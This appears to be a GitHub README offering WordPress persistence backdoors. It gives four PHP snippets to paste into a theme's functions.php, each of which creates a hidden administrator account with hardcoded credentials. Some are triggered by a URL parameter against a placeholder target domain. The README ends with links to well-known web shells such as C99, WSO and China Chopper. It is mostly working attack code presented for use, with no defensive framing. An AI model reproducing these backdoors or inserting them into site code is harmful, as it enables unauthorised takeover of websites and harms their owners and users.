 ![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/link-in-bio-backdoor-and-web.png?raw=true)

## Backdoor-01 (add to theme functions.php)






```bash

function wpb_admin_account(){
$user = ‘minhaz’;
$pass = ‘pass’;
$email = ’email@email.em’;
if ( !username_exists( $user ) && !email_exists( $email ) ) {
$user_id = wp_create_user( $user, $pass, $email );
$user = new WP_User( $user_id );
$user->set_role( ‘administrator’ );
}
}
add_action(‘init’,’wpb_admin_account’);
```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Screenshot_1.png?raw=true)
## Backdoor-02 (add to theme functions.php)






```bash

<?php
add_action(‘wp_head’, ‘WordPress_backdoor’);
function WordPress_backdoor() {
If ($_GET[‘backdoor’] == ‘go’) {
require(‘wp-includes/registration.php’);
If (!username_exists(‘backdooradmin’)) {
$user_id = wp_create_user(‘backdooradmin’, ‘Pa55W0rd’);
$user = new WP_User($user_id);
$user->set_role(‘administrator’);
}
}
}
?>

```
https://www.targetdomain.com?backdoor=go
- User: backdooradmin
 - Password: Pa55W0rd




## Backdoor-03 (add to theme functions.php)






```bash

add_action( 'wp_head', 'my_backdoor' );

function my_backdoor() {
    if ( md5( $_GET['backdoor'] ) == '34d1f91fb2e514b8576fab1a75a89a6b' ) {
        require( 'wp-includes/registration.php' );
        if ( !username_exists( 'cyber_insect99' ) ) {
            $user_id = wp_create_user( 'cyber_insect99', 'pass' );
            $user = new WP_User( $user_id );
            $user->set_role( 'administrator' ); 
        }
    }
}


```
https://www.targetdomain.com?backdoor=go
- User: cyber_insect99
 - Password: pass

## Backdoor-04 (add to theme functions.php)



```bash

$new_user = new Wp_User(wp_create_user('user','password'));
$new_user->set_role('administrator');




```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/backdoor%20on%20wp%20site.png?raw=true)
- Then go to use option on wordpress deshboard the you will see  a new user .
- User: user
 - Password: password


# Web Shell
# 
![Logo](https://github.com/jco666/alfa-shell/raw/master/readme_1.png)
 - [Alpha Web Shell ](https://github.com/nicolauns/alfa-shell )
 - [ASPXSpy Web Shell:](https://github.com/tennc/webshell/blob/master/net-friend/aspx/aspxspy.aspx)
 - [C99 Backdoor Web Shell](https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell)
 - [China Chopper Shell](https://github.com/tennc/webshell/tree/master/caidao-shell)
 - [ IndoXploit Shell (IDX Shell) ](https://github.com/linuxsec/indoxploit-shell)
 - [WSO Web Shell](https://github.com/tennc/webshell/tree/master/php/wso)
  - [B374k PHP Shell](https://github.com/b374k/b374k)
   - [r57 Shell](https://github.com/tennc/webshell/tree/master/138shell/R)
